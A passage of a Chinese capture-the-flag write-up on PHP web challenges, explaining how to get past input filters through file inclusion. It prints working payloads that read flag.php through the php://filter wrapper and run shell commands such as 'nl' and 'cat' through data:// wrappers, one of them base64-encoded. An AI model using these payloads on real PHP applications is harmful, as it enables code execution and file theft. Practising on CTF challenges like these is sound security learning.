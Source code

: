 观察代码，发现过滤了更多的东西

![image-20240424185740157](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404241857232.png)

因此这题可以通过文件包含和变量覆盖来写

```
payload：?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
```

$_GET[1]不加括号是因为，include把\$__GET[1]当做一个变量来看，变量的内容由1来确定

1=php://filter/convert.base64-encode/resource=flag.php是通过get请求传入的参数，内容是一个文件包含，以base64形式返回

![image-20240424190343055](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404241903101.png)

flag在将base64解码就能看到了

------

### web-33

观察代码，发现这道题比上一道题过滤了一样的东西，因此，这道题可以用上一题的题解写。

但我们换种方法，我们使用data://伪协议

payload：?c=include$_GET[1]?>&1=data://text/plain,<?php%20system("nl%20flag.php");?>

![image-20240424190935358](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404241909381.png)

页面回显1，说明代码成功执行，查看源码就能得到flag

------

### web-34-36

跟前两个题做法一模一样

------

### web-37

观察代码，发现一个include可知，该题需要使用文件包含，由于该题过滤了flag，它包含的数据流需转换成base64编码来改写

![image-20240424194040157](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404241940177.png)

```
?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTs/Pg==
```

flag在源码里

注意：当data://text/plain后面接的不是base64编码，就使用逗号隔开

​			当data://text/plain后面为base64编码，就要使用分号隔开，再加上base64和base64编码

------

### web-38
